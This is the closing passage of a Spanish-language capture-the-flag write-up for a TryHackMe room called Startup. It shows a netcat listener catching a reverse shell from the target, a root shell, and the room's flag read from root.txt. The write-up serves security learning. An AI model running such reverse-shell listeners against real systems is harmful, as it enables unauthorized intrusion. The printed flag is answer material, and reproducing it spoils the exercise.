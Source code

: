 Y listo en la otra terminal esta 
```

┌──(kali㉿kali)-[~/Documents/Seguridad de redes/Startup]
└─$ rlwrap nc -lnvp 5555
listening on [any] 5555 ...
connect to [10.9.0.72] from (UNKNOWN) [10.10.129.12] 52996
sh: 0: can't access tty; job control turned off
# id
uid=0(root) gid=0(root) groups=0(root)
# pwd
/root
# ls
root.txt
# cat root.txt
THM{f963aaa6a430f210222158ae15c3d76d}
# 


```
## Notas adicionales
## Referencias